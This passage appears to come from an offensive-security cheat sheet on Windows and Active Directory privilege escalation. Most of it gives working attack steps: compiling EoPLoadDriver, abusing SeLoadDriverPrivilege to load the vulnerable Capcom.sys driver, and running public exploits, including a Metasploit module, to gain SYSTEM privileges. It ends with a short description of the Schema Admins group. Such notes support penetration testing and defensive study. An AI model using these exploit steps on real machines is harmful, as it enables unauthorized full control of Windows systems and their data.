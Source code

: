 The process can be automated using the `eoploaddriver` binary

```
# If needed, compiles the EoPLoadDriver project from the Linux operating system using MinGW.
# Alternatively, binaries are compiled on the following GitHub repository: https://github.com/umiterkol/EoPLoadDriver_Release/releases.
# The source code headers must be modified as follow:
# #include "stdafx.h" -> must be removed.
# #include <Windows.h> -> #include <windows.h>
# #include <Winternl.h>  -> #include <winternl.h>
# Compiles for 32-bits systems.
i686-w64-mingw32-g++ -o eoploaddriver.exe eoploaddriver.cpp
# Compiles for 64-bits systems.
x86_64-w64-mingw32-g++ -o eoploaddriver.exe eoploaddriver.cpp

# Creates the necessary entry in the specified registry path (in HKCU\System\CurrentControlSet\<DRIVER_NAME>) and loads the specified Windows kernel driver.
# Requires the SeLoadDriverPrivilege privilege to be Enabled in the process access token.
# The Capcom.sys driver can be found in the Capcom-Rootkit project GitHub repository (hash SHA256: da6ca1fb539f825ca0f012ed6976baf57ef9c70143b7a1e88b4650bf7a925e24).
eoploaddriver.exe System\CurrentControlSet\<DRIVER_NAME> "<CAPCOM_SYS_FILE_PATH | DRIVER_SYS_FILE_PATH>"
```

The `Capcom` driver can then be exploited using multiple public projects:

```
# Replaces the current process access token to the SYSTEM access token effectively granting the current process "NT AUTHORITY\SYSTEM" privileges.
. .\CapCom-GDI-x64Universal.ps1
CapCom-GDI-x64Universal

# Requires an interactive logon session as the exploit launches a new command prompt (with "NT AUTHORITY\SYSTEM" privileges).
ExploitCapcom.exe

# Requires a meterpreter shell and will execute the specified metasploit payload.
# The vulnerability check may fail and should be commented out (check function).
msf> use exploit/windows/local/capcom_sys_exec
```

### Schema Admins

The members of the `Schema Admins` / `Administrateurs du schéma` `universal`
group (`SID: S-1-5-21-<ROOT_DOMAIN>-518`) can modify the `Active Directory
Schema`. The `Active Directory Schema` defines every objects class, and their
attributes, that can be created in an Active Directory forest. For example, the
schema defines a `securityPrincipal` class, with the mandatory `objectSid` and
`sAMAccountName` attributes, that is inherited by the `user` class. The schema
is shared by all the domains of the forest. By default, the only member
of the `Schema Admins` group is the built-in `Administrator` account of the
forest root domain. The domain `Schema Admins` group, and its members, are
protected by the `AdminSDHolder` mechanism.
